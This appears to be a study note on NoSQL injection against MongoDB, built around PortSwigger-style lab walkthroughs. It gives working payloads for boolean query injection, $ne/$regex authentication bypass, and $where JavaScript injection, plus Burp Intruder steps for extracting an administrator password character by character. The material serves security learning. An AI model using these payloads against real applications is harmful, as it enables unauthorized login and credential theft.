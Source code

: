 There are two different types of NoSQL injection:
 - Syntax injection - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. The methodology is similar to that used in SQL injection. However the nature of the attack varies significantly, as NoSQL databases use a range of query languages, types of query syntax, and different data structures.
 - Operator injection - This occurs when you can use NoSQL query operators to manipulate queries.

### Lab: Detecting NoSQL injection
There's a vulnerable to nosqli endpoint:
```bash
GET /filter?category=Accessories HTTP/1.1
```
So we try:
```bash
GET /filter?category=Accessories' 
```
And we get back the err:
```
Command failed with error 139 (JSInterpreterFailure): &apos;SyntaxError: unterminated string literal :
functionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25
&apos; on server 127.0.0.1:27017. The full response is {&quot;ok&quot;: 0.0, &quot;errmsg&quot;: &quot;SyntaxError: unterminated string literal :\nfunctionExpressionParser@src/mongo/scripting/mozjs/mongohelpers.js:46:25\n&quot;, &quot;code&quot;: 139, &quot;codeName&quot;: &quot;JSInterpreterFailure&quot;}
```
On the backend they have something like:
```bash
const result = await productMongooseModel.find({ $where: `this.category === '${req.query.category}'`})
```
That `$where` from official mongodb docs:
```
Use the $where operator to pass either a string containing a JavaScript expression or a full JavaScript function to the query system
```
To solve the lab, we need to perform a NoSQL injection attack that causes the application to display unreleased products. 

Therefore we check if we can inject boolean conditions to change the response
(don't forget to url encode, here is just shown in this way for the sake of readability)
```
GET /filter?category=Gifts' && 0 && 'x
```
Before the injection GET /filter?category=Gifts retrived 3 products but with the condition `&& 0` mongo returns `false` for every item in the collection and as a result we see no products in the response.

Later if we change to:
```
GET /filter?category=Gifts' && 1 && 'x
```
We see our 3 products again

So to see all products let's modify to the following (don't forget to url-encode):
```
GET /filter?category=Gifts' || 1 || 'x
```
And we see more than 3 products (we see all of them)


## NoSQL operator injection
## Submitting query operators
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`. 

For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following: 
1. Convert the request method from `GET` to `POST`.
1. Change the `Content-Type` header to `application/json`.
1. Add JSON to the message body.
1. Inject query operators in the JSON.

## Detecting operator injection in MongoDB
 Consider a vulnerable application that accepts a username and password in the body of a `POST` request:
```
{"username":"wiener","password":"peter"}
```
Test each input with a range of operators. For example, to test whether the username input processes the query operator, you could try the following injection: 
```
{"username":{"$ne":"invalid"},"password":{"peter"}}
```
 If the `$ne` operator is applied, this queries all users where the username is not equal to invalid.

If both the username and password inputs process the operator, it may be possible to bypass authentication using the following payload: 
```
{"username":{"$ne":"invalid"},"password":{"$ne":"invalid"}}
```
This query returns all login credentials where both the username and password are not equal to `invalid`. As a result, you're logged into the application as the first user in the collection. 

To target an account, you can construct a payload that includes a known username, or a username that you've guessed. For example: 
```
{"username":{"$in":["admin","administrator","superadmin"]},"password":{"$ne":""}}
```
### Lab: Exploiting NoSQL operator injection to bypass authentication
Endpoint:
```bash
POST /login HTTP/1.1

{"username":"wiener","password":"peter"}
```
Change to:
```bash
{"username":{"$regex":"admin.*"},"password":{"$ne":""}}
```

## Exploiting syntax injection to extract data 
In many NoSQL databases, some query operators or functions can run limited JavaScript code, such as MongoDB's $where operator and mapReduce() function. This means that, if a vulnerable application uses these operators or functions, the database may evaluate the JavaScript as part of the query. You may therefore be able to use JavaScript functions to extract data from the database.

Consider a vulnerable application that allows users to look up other registered usernames and displays their role. This triggers a request to the URL:
```
https://insecure-website.com/user/lookup?username=admin
```

This results in the following NoSQL query of the users collection:
```
{"$where":"this.username == 'admin'"}
```

As the query uses the $where operator, you can attempt to inject JavaScript functions into this query so that it returns sensitive data. For example, you could send the following payload:
```
admin' && this.password[0] == 'a' || 'a'=='b
```

This returns the first character of the user's password string, enabling you to extract the password character by character.

You could also use the JavaScript match() function to extract information. For example, the following payload enables you to identify whether the password contains digits:
```
admin' && this.password.match(/\d/) || 'a'=='b
```

### Lab: Exploiting NoSQL injection to extract data
There's an endpoint:
```
GET /user/lookup?user=wiener HTTP/2
```
Making sure it is vulnerable (not url encoded for the sake of readability):
```
GET /user/lookup?user=wiener' && '1' == '1
```
Find out the password length
```
GET /user/lookup?user=administrator' && this.password.length < 30 || 'a'=='b
```

Right-click the request and select Send to Intruder.
In Intruder, enumerate the password:
- Change the user parameter to `administrator' && this.password[§0§]=='§a§`. This includes two payload positions. Make sure to URL-encode the payload.
- Select Cluster bomb attack from the attack type drop-down menu.
- In the Payloads side panel, select position 1 from the Payload position drop-down list. Add numbers from 0 to 7 for each character of the password.
- Select position 2 from the Payload position drop-down list, then add lowercase letters from a to z. If you're using Burp Suite Professional, you can use the built-in a-z list.
- Click Start attack.
- Sort the attack results by Payload 1, then Length. Notice that one request for each character position (0 to 7) has evaluated to true and retrieved the details for the administrator user. Note the letters from the Payload 2 column down.

In Burp's browser, log in as the administrator user using the enumerated password. The lab is solved.

